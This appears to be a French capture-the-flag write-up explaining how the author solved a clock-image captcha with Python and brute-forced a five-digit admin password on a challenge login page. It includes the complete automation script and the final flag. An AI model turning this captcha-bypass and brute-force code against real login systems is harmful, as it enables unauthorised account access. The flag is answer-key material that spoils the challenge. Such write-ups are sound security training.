



# Pas si chronophage

> Cette application permet la connexion de l'utilisateur à son compte de box internet.
>
> https://passichronophage.chall.malicecyber.com/

## Description

On arrive sur une page d'accueil qui comporte une page de login.



Le nom d'utilisateur est `admin`, il faut deviner le mot de passe et il y a un captcha composé d'une horloge, il entrer l'heure dans le champ.

Je tente `admin` comme mot de passe, et on me renvoie le message d'erreur suivant :

> Warning ! Bad username/password. If you're having issues, please follow [this tutorial](https://passichronophage.chall.malicecyber.com/how-to-login.php).

Le tutoriel en question :


On apprend l'information importante : le mot de passe est un nombre à 5 chiffres : on peut donc tenter de bruteforcer le mot de passe, en trouvant de manière automatique la solution des captcha.

## Résoudre le captcha

Pour commencer, je télécharge l'une des image et l'importe avec Python.

Mon idée est la suivante : je nettoie l'image en la convertissant en noir et blanc, puis je parcours deux cercles pour repérer l'angle de l'aiguille des heures et l'angle de l'aiguille des minutes.

En premier lieu, je nettoie l'image.

```python
img = Image.open(f"clock.png")
pixels = img.load()
SIZE = img.width

# Cleaning image
data = np.zeros((SIZE,SIZE), dtype=np.uint8)
for x in range(SIZE//5,SIZE-SIZE//5):
    for y in range(SIZE//5,SIZE-SIZE//5):
        if pixels[x,y] == (0,0,0):
            data[y,x] = 255
img = Image.fromarray(data)
img.save("clean.png")
```

J'obtiens alors une image similaire à celle-ci :



Je peux ensuite parcourir deux cercles, l'un de rayon 50 pixels pour obtenir l'angle des minutes, l'autre de rayon 25 pixels pour les heures, sachant que pour les heures, je ne prend pas en compte les pixels situés proches de l'aiguille des minutes.

```python
def cartesian_from_polar(r, theta):
    return (int(r*np.cos(theta)), int(r*np.sin(theta)))

# Getting minutes
minute_angle = 0
for theta in np.arange(0,2*np.pi,.01):
    offset = cartesian_from_polar(50,theta)
    if data[(SIZE//2+offset[0], SIZE//2+offset[1])] == 255:
        minute_angle = theta
minute = (90-int(30*minute_angle/np.pi))%60

hour_angle = -1
# Getting hours
for theta in np.arange(0,2*np.pi,.01):
    if np.abs(theta-minute_angle) < np.pi/10:
        continue
    offset = cartesian_from_polar(25,theta)
    if data[(SIZE//2+offset[0], SIZE//2+offset[1])] == 255:
        hour_angle = theta
if hour_angle == -1:
    hour_angle = minute_angle
hour = (17-int(6*hour_angle/np.pi))%12
```

Les calculs de conversion angle/minute-heure sont complexes car importer les pixels crée une symmétrie et rotation de l'horloge.

Je teste le code, et j'obtiens pour plusieurs horloges la bonne heure.
Je peux alors continuer.

## Essai automatique

La requête à effectuer est une requête POST sur `/index.php` qui contient le nom d'utilisateur, le mot de passe et le captcha encodés en base 64.

Cependant, le captcha n'est pas directement l'heure, mais est la série de boutons à presser.
En effet, voici le code de la page `index.html` :

```html
<div class="row row-no-padding">
    <div class="col-xs-12">
        <div class="Login-keypad">
            <a class="Login-key T031__key" tabindex="10" role="button" onclick="addClickToInput(0, 0)"><div data-pos="0">0</div></a>
            <a class="Login-key T031__key" tabindex="11" role="button" onclick="addClickToInput(6, 1)"><div data-pos="1">6</div></a>
            <a class="Login-key T031__key" tabindex="12" role="button" onclick="addClickToInput(4, 2)"><div data-pos="2">4</div></a>
            <a class="Login-key T031__key" tabindex="13" role="button" onclick="addClickToInput(2, 3)"><div data-pos="3">2</div></a>
            <a class="Login-key T031__key" tabindex="14" role="button" onclick="addClickToInput(8, 4)"><div data-pos="4">8</div></a>
        </div>
    </div>
</div>
<div class="row row-no-padding">
    <div class="col-xs-12">
        <div class="Login-keypad">
            <a class="Login-key T031__key" tabindex="15" role="button" onclick="addClickToInput(5, 5)"><div data-pos="5">5</div></a>
            <a class="Login-key T031__key" tabindex="16" role="button" onclick="addClickToInput(3, 6)"><div data-pos="6">3</div></a>
            <a class="Login-key T031__key" tabindex="17" role="button" onclick="addClickToInput(1, 7)"><div data-pos="7">1</div></a>
            <a class="Login-key T031__key" tabindex="18" role="button" onclick="addClickToInput(7, 8)"><div data-pos="8">7</div></a>
            <a class="Login-key T031__key" tabindex="19" role="button" onclick="addClickToInput(9, 9)"><div data-pos="9">9</div></a>
        </div>
    </div>
</div>

<script type="text/javascript">
    function addClickToInput(val, pos) {
        // remove the : from the input
        var input = document.getElementById('inputTime');
        if (input.value.length != 5) {
        document.getElementById('inputTime').value = "00:00";
        input = document.getElementById('inputTime');
        }
        var value = input.value;
        value = value.replace(':', '');
        new_value = value + val;
        // remove the first character
        new_value = new_value.substring(1, 3) + ':' + new_value.substring(3);
        document.getElementById('inputTime').value = new_value;

        var captchaInput = document.getElementById('captchaInput');
        if (captchaInput.value.length != 4) {
        document.getElementById('captchaInput').value += pos;
        } else {
        document.getElementById('captchaInput').value = captchaInput.value.substring(1, 4) + pos;
        }
    }
</script>
```

Ainsi, c'est la position du bouton dans la grille du captcha qui est envoyée.

On doit donc télécharger la page, récupérer l'ordre des boutons, résoudre la captcha, convertir l'heure en numéros de boutons et envoyer notre essai de mot de passe.

Ceci est le code complet :

```python
import requests
from base64 import urlsafe_b64encode
from PIL import Image
import numpy as np

class CaptchaException(Exception):
    pass
class LoginException(Exception):
    pass

url = "https://passichronophage.chall.malicecyber.com"

def getPos(webpage):
    convert = [0]*10
    for line in webpage.split('<div data-pos="')[1:]:
        convert[int(line[3])] = int(line[0])
    return convert

session = requests.Session()
r = session.get(url)
convert = getPos(r.text)
cookie = r.headers["Set-Cookie"].split("=")[1].split(";")[0]

def urlencode(s):
    return urlsafe_b64encode(s.encode()).decode()

def captcha_from_hour(hour, convert):
    return "".join([str(convert[int(c)]) for c in hour])

def download_image(cookie):
    r = requests.get(url + f"/captchas/captcha_{cookie}.png")
    with open(f"clock-{cookie}.png", 'wb') as f:
        f.write(r.content)

def cartesian_from_polar(r, theta):
    return (int(r*np.cos(theta)), int(r*np.sin(theta)))

def get_time():
    img = Image.open(f"clock-{cookie}.png")
    pixels = img.load()
    SIZE = img.width

    # Cleaning image
    data = np.zeros((SIZE,SIZE), dtype=np.uint8)
    for x in range(SIZE//5,SIZE-SIZE//5):
        for y in range(SIZE//5,SIZE-SIZE//5):
            if pixels[x,y] == (0,0,0):
                data[y,x] = 255

    # Getting minutes
    minute_angle = 0
    for theta in np.arange(0,2*np.pi,.01):
        offset = cartesian_from_polar(50,theta)
        if data[(SIZE//2+offset[0], SIZE//2+offset[1])] == 255:
            minute_angle = theta
    minute = (90-int(30*minute_angle/np.pi))%60
    
    hour_angle = -1
    # Getting hours
    for theta in np.arange(0,2*np.pi,.01):
        if np.abs(theta-minute_angle) < np.pi/10:
            continue
        offset = cartesian_from_polar(25,theta)
        if data[(SIZE//2+offset[0], SIZE//2+offset[1])] == 255:
            hour_angle = theta
    if hour_angle == -1:
        hour_angle = minute_angle
    hour = (17-int(6*hour_angle/np.pi))%12

    # img = Image.fromarray(data)
    # img.save("clean.png")

    return (hour,minute)

def post(password, captcha):
    global convert
    data = {
        "username": "YWRtaW4=",
        "password": urlencode(password),
        "captcha": urlencode(captcha)
    }
    r = session.post(url + "/login.php", data=data)
    convert = getPos(r.text)
    if "Wrong captcha" in r.text:
        raise CaptchaException
    if "Bad username/password" in r.text:
        raise LoginException
    return r.text

code = 0
while code < 100000:
    try:
        print(f"Testing code {code:05}")
        download_image(cookie)
        (hour, minute) = get_time()
        print(f"{hour:02}{minute:02}")
        captcha = captcha_from_hour(f"{hour:02}{minute:02}", convert)
    except:
        continue
    try:
        text = post(f"{code:05}", captcha)
    except CaptchaException:
        continue
    except LoginException:
        code += 1
        continue
    except:
        continue
    print(cookie, code)
    print(text)
    break
```

Au bout d'une petite heure, je trouve le code : `44188`, et donc le flag.



Flag : `DGHACK{DontFeelBadAboutDumpingYourInternetProvider}`